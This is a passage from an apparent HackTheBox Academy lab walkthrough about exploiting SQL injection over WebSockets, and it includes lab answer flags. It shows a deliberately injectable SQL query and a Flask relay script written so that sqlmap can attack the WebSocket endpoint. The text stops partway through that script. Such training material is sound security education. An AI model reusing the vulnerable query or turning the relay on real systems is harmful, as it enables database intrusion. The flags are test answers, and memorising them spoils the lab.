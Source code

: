 Answer: `HTB{2ca1d602f8a1a8439fd6a832a96e4f89}`

# Exploiting SQLi via WebSockets

## Question 1

### "Exploit the SQL injection vulnerability to exfiltrate the flag from the database."

After spawning the target machine, students first need to download [src\_websocket\_sqli.zip](https://academy.hackthebox.com/storage/modules/231/src_websocket_sqli.zip) and then unzip it:

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/231/src_websocket_sqli.zip
unzip src_websocket_sqli.zip
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-w3euxoqbcl]─[~]
└──╼ [★]$ wget https://academy.hackthebox.com/storage/modules/231/src_websocket_sqli.zip
unzip src_websocket_sqli.zip

--2023-05-10 15:59:03--  https://academy.hackthebox.com/storage/modules/231/src_websocket_sqli.zip
Resolving academy.hackthebox.com (academy.hackthebox.com)... 104.18.20.126, 104.18.21.126, 2606:4700::6812:147e, ...
Connecting to academy.hackthebox.com (academy.hackthebox.com)|104.18.20.126|:443... connected.
HTTP request sent, awaiting response... 200 OK
<SNIP>
```

As explained in the module's section, there is a SQLi vulnerabilitiy in `server.py`, line 18:

Code: python

```python
mycursor.execute(f'SELECT message FROM users WHERE username="{username}"')
```

Because the backend uses WebSockets, students need to use the `sqlmap` middleware proivded in the section to exploit this SQLi:

Code: python

```python
from flask import Flask, request
from websocket import create_connection
import json

app = Flask(__name__)

# Make sure to replace STMIP
WS_URL = 'ws://STMIP/dbconnector'

@app.route('/')
def index():
    req = {}
    req['username'] = request.args.get('username', '')

    ws = create_connection(WS_URL)
    ws.send(json.dumps(req))
    r = json.loads(ws.recv())
    ws.close()

    if r.get('error'):
        return r['error']
```
